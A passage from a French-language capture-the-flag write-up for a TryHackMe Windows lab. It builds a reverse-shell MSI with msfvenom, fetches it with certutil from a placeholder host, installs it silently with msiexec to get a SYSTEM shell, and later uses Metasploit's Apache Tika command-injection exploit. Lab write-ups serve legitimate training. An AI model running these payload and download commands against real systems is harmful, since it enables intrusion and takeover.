 1. Nous créons un fichier msi malveillant

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.104.130 LPORT=1234 -a x64 --platform Windows -f msi -o evil.msi
```

![Malicious msi ile created with msfvenom](/images/THM-CyberLens/malicious-msi.png)

2. Ensuite, nous le téléchargeons sur la cible 

```
certutil.exe -urlcache -split -f http://IP_ADDRESS:PORT_NUMBER/evil.msi evil.msi
```

3. Nous exécutons le fichier msi

```
msiexec /quiet /qn /i evil.msi
```

4. Finalement nous obtenons une connexion sur notre listener en tant que `nt authority\system`.

![System shell](/images/THM-CyberLens/system-shell.png)

Nous trouvons le fichier `admin.txt` sur le bureau de l'administrateur.

![System shell](/images/THM-CyberLens/root-flag-manual.png)

---

## Méthode Metasploit

### Accès initial

Nous avons le nom du logiciel, donc nous cherchons des exploits dans Metasploit.

Nous trouvons un exploit pour `Header Command Injection`.

![Metasploit fins exploit for Apache Tika](/images/THM-CyberLens/apache-tika-exploit.png)

> Assurez-vous de définir toutes les options correctement. Le port distant (RPORT) doit être `61777`.

Après avoir exécuté le module, nous obtenons un shell meterpreter.

![Meterpreter shell](/images/THM-CyberLens/meterpreter-shell.png)

### Elévation de Privilèges

Pour élever nos privilèges, nous pouvons utiliser le `exploit_suggester` de Metasploit afin de trouver des pistes.

> Vous pouvez mettre en arrière-plan le shell meterpreter actuel avec `background`

![Metasploit exploit suggester for privilege escalation](/images/THM-CyberLens/metasploit-privesc.png)
